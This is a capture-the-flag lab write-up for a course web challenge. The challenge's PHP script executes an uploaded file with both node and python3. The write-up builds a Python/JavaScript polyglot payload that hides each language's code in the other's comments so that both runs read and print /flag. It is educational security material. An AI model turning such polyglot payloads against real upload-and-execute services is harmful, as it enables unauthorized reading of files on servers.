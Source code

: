 ```yaml
---
title: Simple Welcome - 0x04(Lab - Script)
tags: [CTF, Web, eductf]

category: "Security > Course > NTU CS > Welcome"
---
```


# Simple Welcome - 0x04(Lab - Script)
###### tags: `CTF` `Web` `eductf`
Challenge: https://pyscript.ctf.zoolab.org/

## Source Code
```php=
<?php
    if(!isset($_FILES["file"]))
        highlight_file(__file__) && die();
    $flag = file_get_contents('/flag');
    $node = @`node {$_FILES["file"]["tmp_name"]} 2>&1`;
    $python = @`python3 {$_FILES["file"]["tmp_name"]} 2>&1`;
    if($flag === $node && $flag === $python)
        echo 'Here is your Flag: '.$flag;
    else
        echo 'Fail :(';
?>
```
### Analysis
Must write a script that can be executed in python and node language simultaneously.

## Exploit - Using comment
1. In python
The comment is `#` for single line and `'''` for multi lines
2. In node
The comment is `//` for single line and `/**/` for multi lines
3. Using different definition of comment to write script
Some tips:
    ```python!
    a = 1 // 1;
    b = ''''''
    ```
    Both of these instruction are valid in python
4. Whole payload
* Python
    ```python!
    a = 1 // 1 ; b = '''

    console.log('Javascript code here');

    /* '''

    print('Python code here')

    # */
    ```
* Javascript
    ```javascript!
    a = 1 // 1 ; b = '''

    console.log('Javascript code here');

    /* '''

    print('Python code here')

    # */
    ```

* Whole exploit
    ```!=
    a = 1 // 1 ; b = '''

    const fs = require('fs');

    fs.readFile("/flag", 'utf8',(error, data) => {
        if (error) {
            console.error(error);
            return;
        }
        console.log(data.split('\n')[0]);
    })

    /* '''

    f = open("/flag", "r")
    print(f.read().split('\n')[0])
    # */
    ```
## Reference
[【已解决】PHP中函数前面加上at符号@的作用](https://www.crifan.com/php_function_front_at_sign_meaning/)
[[shell 2>&1是甚麼意思]](https://charleslin74.pixnet.net/blog/post/405455902)
[How to open a local file with JavaScript?](https://researchhubs.com/post/computing/javascript/open-a-local-file-with-javascript.html)
[How to Read/Write local files with Node.js](https://medium.com/@SergioPietri/how-to-read-write-local-files-with-node-js-3d2f58b0384)
[String.prototype.split()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/split)
